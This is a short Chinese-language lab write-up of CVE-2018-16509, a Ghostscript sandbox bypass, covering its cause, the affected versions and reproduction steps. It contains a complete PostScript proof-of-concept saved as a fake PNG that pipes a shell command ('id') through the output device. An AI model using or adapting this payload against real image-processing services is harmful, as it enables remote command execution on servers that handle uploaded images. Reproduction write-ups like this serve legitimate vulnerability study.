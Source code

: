 （CVE-2018-16509）GhostScript 沙箱绕过（命令执行）漏洞
======================================================

一、漏洞简介
------------

该漏洞源于在处理/invalidaccess异常时，程序没有正确的检测'restoration of
privilege（权限恢复）'。攻击者可通过提交特制的PostScript利用该漏洞执行代码。

二、漏洞影响
------------

Ghostscript 9.24之前版本

三、复现过程
------------

上传poc.png，将执行命令`id > /tmp/success && cat /tmp/success`。此时进入容器`docker-compose exec web bash`，将可以看到/tmp/success已被创建：

**poc.png**

    %!PS
    userdict /setpagedevice undef
    save
    legal
    { null restore } stopped { pop } if
    { legal } stopped { pop } if
    restore
    mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops

![](./resource/(CVE-2018-16509)GhostScript沙箱绕过(命令执行)漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/ghostscript/CVE-2018-16509/
